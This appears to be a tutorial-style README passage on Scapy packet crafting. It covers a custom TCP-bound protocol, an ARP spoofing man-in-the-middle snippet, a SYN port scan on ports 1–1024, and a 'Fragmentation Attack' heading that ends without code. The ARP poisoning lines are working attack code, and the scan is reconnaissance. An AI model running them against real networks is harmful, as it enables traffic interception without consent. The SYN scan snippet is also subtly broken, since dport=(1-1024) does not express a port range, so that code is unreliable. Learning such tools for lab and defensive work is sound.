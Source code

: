 
## 🧩 Advanced Techniques

### Custom Protocol Stack

Create and bind a custom protocol to TCP.

```python
>>> class MyProto(Packet):
...     name = "MyProto"
...     fields_desc = [
...         ShortField("id", 0),
...         XIntField("secret", 0xdeadbeef)
...     ]

>>> bind_layers(TCP, MyProto, dport=9999)
```
![image](https://github.com/user-attachments/assets/14eba087-ba30-4f09-b45f-4898d044d711)

### ARP Spoofing (Man-in-the-Middle)

Sends continuous fake ARP replies to poison the ARP table.

```python
>>> arp_poison = ARP(op=2, psrc="192.168.1.1", pdst="192.168.1.100")
>>> send(arp_poison, inter=1, loop=1)
```
![image](https://github.com/user-attachments/assets/0bf6add9-4896-4514-8156-5053182c7532)

---

## 🎯 Mastery-Level Features

### SYN Scan for Ports

Performs a TCP SYN scan on ports 1-1024.

```python
>>> ans, unans = sr(IP(dst="target")/TCP(dport=(1-1024), flags="S"))
```![image](https://github.com/user-attachments/assets/478a5f19-3a74-4ff7-9079-bdddec061024)


### Analyze Scan Results

Summarizes scan responses by source port and TCP flags.

```python
>>> ans.summary(lambda s,r: r.sprintf("%TCP.sport% \t %TCP.flags%"))
```

### Fragmentation Attack

Creates oversized packets to test for fragmentation vulnerabilities.
